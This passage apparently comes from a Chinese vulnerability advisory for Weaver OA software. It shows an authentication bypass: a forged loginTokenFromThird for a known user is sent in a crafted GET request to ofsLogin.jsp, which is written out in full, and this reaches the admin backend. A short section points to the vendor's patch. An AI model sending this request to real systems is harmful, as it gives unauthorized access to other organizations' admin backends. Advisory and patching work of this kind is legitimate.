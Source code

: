 在已知一个`loginId`值为`"user1"`的情况下，首先通过加密算法生成`loginTokenFromThird`的值。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/155a7525-11f4-4598-a9ea-ddc72a51dfb1/image-20230520151651201.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=98952333c6917336937fd7dd861cbc44b8b53517f451733d3f31119e6717f677&X-Amz-SignedHeaders=host&x-id=GetObject)

然后作如下请求，便能成功进入系统后台`/wui/index.html`页面。

```text
GET /mobile/plugin/1/ofsLogin.jsp?syscode=1&timestamp=1&gopage=/wui/index.html&receiver=user1&loginTokenFromThird=793527b3f4855296c85629a7271e20e7 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Encoding: gzip, deflate
Connection: close


```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/e0cd6c88-a175-489d-a0b9-bc76acac84be/image-20230520151811489.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=b2fe1674940921be1ba23e9fd36701bc80b0b348f87b3242272612d906e9cc02&X-Amz-SignedHeaders=host&x-id=GetObject)

## 修复建议

目前厂商已发布了升级补丁以修复这个安全问题，请到厂商的补丁主页下载最新版本补丁包：

- [https://www.weaver.com.cn/cs/securityDownload.html?src=cn](https://www.weaver.com.cn/cs/securityDownload.html?src=cn)

